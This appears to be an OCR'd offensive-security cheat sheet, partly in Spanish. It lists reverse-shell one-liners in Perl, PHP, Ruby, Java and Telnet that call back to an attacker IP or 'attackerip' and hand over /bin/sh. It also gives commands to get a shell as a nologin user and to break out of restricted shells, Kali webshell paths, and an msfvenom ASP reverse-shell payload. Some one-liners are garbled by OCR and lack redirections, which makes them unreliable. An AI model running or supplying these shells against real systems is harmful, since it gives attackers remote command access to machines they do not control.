     perl -e ‘use Socket;$i=”192.168.1.10″;$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
    PHP:
    php -r ‘$sock=fsockopen(“192.168.1.10”,443);exec(“/bin/sh -i &3 2>&3”);’
    Ruby:
    ruby -rsocket -e’f=TCPSocket.open(“192.168.1.10”,443).to_i;exec sprintf(“/bin/sh -i &%d 2>&%d”,f,f,f)’
    Windows
    ruby -rsocket -e ‘c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’
    Java:
    r = Runtime.getRuntime()
    p = r.exec([“/bin/bash”,”-c”,”exec 5/dev/tcp/192.168.1.10/443;cat &5 >&5; done”] as String[])
    p.waitFor()
    Telnet:
    rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.10 443 0/tmp/p
    telnet 192.168.1.10 443 | /bin/bash | telnet 192.168.1.10 443

    Src: https://evi1us3r.wordpress.com/reverse-shell-cheat-sheet/

    Ejecutar comandos con privilegios de usuarios sin shell (nologin / false)

    Usuarios sin shell (nologin).
    grep -i nologin /etc/passwd

    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    apache:x:48:48:Apache:/var/www:/sbin/nologin
    ntp:x:38:38::/etc/ntp:/sbin/nologin

    Ejecutar shell con el usuario apache (configurado con nologin).
    su -s /bin/bash apache

    bash-4.1$ id
    uid=48(apache) gid=48(apache) groups=48(apache)

    Src: https://www.busindre.com/comandos_como_usuarios_sin_shell_nologin

    Breaking out of shells

    • Non-interactive shells
    to break out of non-interactive mode: in /tmp folder
    echo “import pty; pty.spawn(‘/bin/bash’)” > /tmp/test.py
    python /tmp/test.py
    • upgrade non-tty to tty: python -c ‘import pty;pty.spawn(“/bin/sh”)’
    • Escape limited shell
    echo os.system(‘/bin/sh’) OR echo os.system(‘/bin/bash’)

    Kali webshells
    • /usr/share/webshells/php/php-reverse-shell.php
    • /usr/share/webshells/cfm/cfexec.cfm
    • /usr/share/webshells/perl/perl-reverse-shell.pl

    ASP
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.168.168 LPORT=443 -f asp -o shell.asp – also works for exporting .aspx
